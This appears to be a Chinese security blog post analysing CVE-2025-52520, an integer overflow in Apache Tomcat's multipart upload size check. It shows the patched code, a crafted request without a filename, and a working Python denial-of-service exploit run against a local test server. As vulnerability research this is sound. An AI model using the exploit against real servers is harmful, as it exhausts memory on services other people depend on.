










# CVE-2025-52520: Apache Tomcat: DoS via integer overflow in multipart file upload分析-先知社区

> **来源**: https://xz.aliyun.com/news/18801  
> **文章ID**: 18801

---

7月份tomcat官方陆陆续续公开了几个漏洞，其中之一是**CVE-2025-52520**，这个漏洞虽然定级是低危，但是细致一看还是有点意思，所以也花了点时间看了下。

> **Low: DoS due to overflow in file upload limit** [CVE-2025-52520](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-52520)
>
> For some unlikely configurations of multipart upload, an Integer Overflow vulnerability could lead to a DoS via bypassing of size limits.
>
> This was fixed with commit [927d66fb](https://github.com/apache/tomcat/commit/927d66fbc294cb65242102b817a45fd80834e040).
>
> The issue was made public on 10 July 2025.
>
> Affects: 9.0.0.M1 to 9.0.106

## 0x01 漏洞分析

从官方描述可知利用的是整数溢出后为负数绕过配置的文件大小限制，最终导致资源耗尽从而造成拒绝服务

具体来了下补丁<https://github.com/apache/tomcat/commit/927d66fbc294cb65242102b817a45fd80834e040>

其中的关键代码片段如下

```
            parts = new ArrayList<>();
            try {
                List<FileItem> items = upload.parseRequest(new ServletRequestContext(this));
                int maxPostSize = getConnector().getMaxPostSize();
                int postSize = 0;
                Charset charset = getCharset();
                for (FileItem item : items) {
                    ApplicationPart part = new ApplicationPart(item, location);
                    parts.add(part);
                    if (part.getSubmittedFileName() == null) {
                        String name = part.getName();
                        if (maxPostSize >= 0) {
                            // Have to calculate equivalent size. Not completely
                            // accurate but close enough.
                            postSize += name.getBytes(charset).length;
                            // Equals sign
                            postSize++;
                            // Value length
                            postSize += part.getSize();
                            // Value separator
                            postSize++;
                            if (postSize > maxPostSize) {
                                parameters.setParseFailedReason(FailReason.POST_TOO_LARGE);
                                throw new IllegalStateException(sm.getString("coyoteRequest.maxPostSizeExceeded"));
                            }
                        }
                        String value = null;
```

从该片段可知是`org.apache.catalina.connector.Request#parseParts`中的局部int类型变量`postSize`不断自增最终溢出为负数导致后面的`postSize > maxPostSize`为假，从而绕过了最大post请求字节数的限制，无限上传大文件最终导致资源耗尽。

## 0x02 漏洞复现

### 2.1 环境准备

使用**Apache Tomcat/9.0.98**版本进行复现

由于涉及到文件上传自己还需要写一个文件上传Servlet

新建`com.example.FileUploadServlet`用于处理文件上传

```
package com.example;


import javax.servlet.ServletException;
import javax.servlet.annotation.MultipartConfig;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.*;
import java.io.*;

@WebServlet("/FileUploadServlet")
@MultipartConfig()
public class FileUploadServlet extends HttpServlet {
    private String extractFileName(Part part) {

        return "test";
    }

    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp)
            throws IOException {
        String saveDir = req.getServletContext().getRealPath("") + File.separator + "upload";
        File dir = new File(saveDir);
        if (!dir.exists()) dir.mkdir();

        try {
            for (Part part : req.getParts()) {
                String fileName = extractFileName(part);
                if (fileName != null && !fileName.isEmpty()) {
                    part.write(saveDir + File.separator + fileName);
                }
            }
        } catch (ServletException e) {
            e.printStackTrace();
        }
        resp.setContentType("text/html;charset=UTF-8");
        resp.getWriter().write("<h3>上传成功！文件保存在 'upload' 文件夹</h3>");
    }
}

```

新建index.html用于从前端进行上传文件

```
<!DOCTYPE html>
<html>
  <meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>
  <body>
    <h2>上传文件</h2>
    <form action="FileUploadServlet" method="post" enctype="multipart/form-data">
      <input type="file" name="file" /><br><br>
      <input type="submit" value="上传" />
    </form>
  </body>
</html>

```

之后启动tomcat



访问tomcat的<http://localhost:8084/tomcat9/>



### 2.2 在调试中进行复现

在`Request`中的关键点（即上述补丁中的关键点位）位打上断点



可以看到connector中默认设置的`maxPostSize`大小为2097152 ，即2M





正常这样传文件，后面的关键比较逻辑的断点没有停下来，即不会进入和`maxPoseSize`比较的逻辑，看下相关逻辑只有从请求中获取的part的`fileName`为`null`才能进入该比较逻辑。

​



那什么时候上传的分块part的`fileName`会为`null`?

具体得看下part的文件名解析逻辑，具体在`org.apache.catalina.core.ApplicationPart#getSubmittedFileName`方法

```
public String getSubmittedFileName() {
        String fileName = null;
        String cd = getHeader("Content-Disposition");
        if (cd != null) {
            String cdl = cd.toLowerCase(Locale.ENGLISH);
            if (cdl.startsWith("form-data") || cdl.startsWith("attachment")) {
                ParameterParser paramParser = new ParameterParser();
                paramParser.setLowerCaseNames(true);
                // Parameter parser can handle null input
                Map<String,String> params = paramParser.parse(cd, ';');
                if (params.containsKey("filename")) {
                    fileName = params.get("filename");
                    // The parser will remove surrounding '"' but will not
                    // unquote any \x sequences.
                    if (fileName != null) {
                        // RFC 6266. This is either a token or a quoted-string
                        if (fileName.indexOf('\') > -1) {
                            // This is a quoted-string
                            fileName = HttpParser.unquote(fileName.trim());
                        } else {
                            // This is a token
                            fileName = fileName.trim();
                        }
                    } else {
                        // Even if there is no value, the parameter is present,
                        // so we return an empty file name rather than no file
                        // name.
                        fileName = "";
                    }
                }
            }
        }
        return fileName;
    }
```

从中可知`fileName`的初始值就为`null`，如果存在`Content-Disposition`头部，即会从头部去提取文件名，正常的`Content-Disposition`格式如下，从逻辑中可知如果`Content-Disposition`中不存在`filename`，即会使得返回的`fileName`依旧为初始值`null`

```
Content-Disposition: form-data; name="f0"; filename="a.bin"
```

修改请求`Content-Disposition`，重新上传，成功进入`postSize`的自增逻辑

```
POST /tomcat9/FileUploadServlet HTTP/1.1
Host: localhost:8084
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynEfAEoNhCwVuNbHE
Origin: http://localhost:8084
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-User: ?1
Sec-Fetch-Site: same-origin
Referer: http://localhost:8084/tomcat9/
Accept-Encoding: gzip, deflate, br, zstd
Sec-Fetch-Mode: navigate
Cache-Control: max-age=0
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138", "Google Chrome";v="138"
Content-Length: 847

------WebKitFormBoundarynEfAEoNhCwVuNbHE
Content-Disposition: form-data; name="file";
Content-Type: application/octet-stream


test
------WebKitFormBoundarynEfAEoNhCwVuNbHE--

```

​



下一步即需要构造分块使得**postSize+part.getSize()**大于整数的最大值**Integer.MAX\_VALUE** （2147483647 ）

正常是只要构造一个大小为 **2147483647**字节的块就能够溢出，但是实际正常尝试时发现一直报块不合法



后面我尝试分为2个块进行传输，第一个块大小要小于`maxPostSize` 2097152（2M,connector的设置的默认值大小），我先设置为2097140

然后第二个块大小为2147483647 - 2097140=2145386507（大概这样就行，因为postSize在这基础上还会进行一些其他逻辑的自增，所以这样就能够进行溢出）

​

使用如下python脚本进行利用

```
import requests
import os

def send_part(session, boundary, idx, chunk_size):
    # 文件字段名 f0, f1...
    name = f'f{idx}'
    # 伪造一个文件对象
    headers = {
        'Content-Disposition': f'form-data; name="{name}"; ',
        'Content-Type': 'application/octet-stream'
    }
    # 为减轻内存压力，生成指定大小的块
    data = os.urandom(chunk_size)
    part = (
        f'--{boundary}\r
'.encode() +
        b'Content-Disposition: ' + headers['Content-Disposition'].encode() + b'\r
' +
        b'Content-Type: application/octet-stream\r
\r
' +
        data + b'\r
'
    )
    return part

def exploit(url, num_parts=2, chunk_size=2145386507):
    boundary = 'X' * 16
    session = requests.Session()
    # 构造 body 生成器
    def generate():
        for i in range(num_parts):
            if i == 0:
                yield send_part(session, boundary, i+1, 2097140)
            else:
                yield send_part(session, boundary, i+1, chunk_size)
        yield f'--{boundary}--\r
'.encode()

    headers = {
        'Content-Type': f'multipart/form-data; boundary={boundary}',
        # 明确长度可选，但也可以避免 chunked 传输
    }
    resp = session.post(url, data=generate(), headers=headers, stream=True)
    print(f'Status code: {resp.status_code}')
    print('Response headers:', resp.headers)

if __name__ == '__main__':
    target = 'http://localhost:8084/tomcat9/FileUploadServlet'  # 要替换成真实的上传 URL
    exploit(target)

```

最终`postSize`溢出成功为负数，导致`post>maxPoseSize`为假



最终由于文件过大在处理过程中堆溢出



​

核心错误栈

​

```
parseParts:2627, Request (org.apache.catalina.connector)
getParts:2526, Request (org.apache.catalina.connector)
getParts:795, RequestFacade (org.apache.catalina.connector)
doPost:35, FileUploadServlet (com.example)
service:555, HttpServlet (javax.servlet.http)
service:623, HttpServlet (javax.servlet.http)
internalDoFilter:199, ApplicationFilterChain (org.apache.catalina.core)
doFilter:144, ApplicationFilterChain (org.apache.catalina.core)
doFilter:51, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:168, ApplicationFilterChain (org.apache.catalina.core)
doFilter:144, ApplicationFilterChain (org.apache.catalina.core)
invoke:168, StandardWrapperValve (org.apache.catalina.core)
invoke:90, StandardContextValve (org.apache.catalina.core)
invoke:482, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:130, StandardHostValve (org.apache.catalina.core)
invoke:93, ErrorReportValve (org.apache.catalina.valves)
invoke:660, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:74, StandardEngineValve (org.apache.catalina.core)
service:346, CoyoteAdapter (org.apache.catalina.connector)
service:396, Http11Processor (org.apache.coyote.http11)
process:63, AbstractProcessorLight (org.apache.coyote)
process:937, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1791, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:52, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1190, ThreadPoolExecutor (org.apache.tomcat.util.threads)
run:659, ThreadPoolExecutor$Worker (org.apache.tomcat.util.threads)
run:63, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:748, Thread (java.lang)
```

## 0x03 总结

这个漏洞其实原理不难，整数溢出这个技巧其实主要用在ctf中，现在大家都开始从这种细节处去挖漏洞了，可见tomcat真的是越来越不好挖了。总体来看也是一个可遇不可求的漏洞，因为整数溢出或许常见，但是后续溢出后的整数被用于进行重要的逻辑运算就比较看运气了。
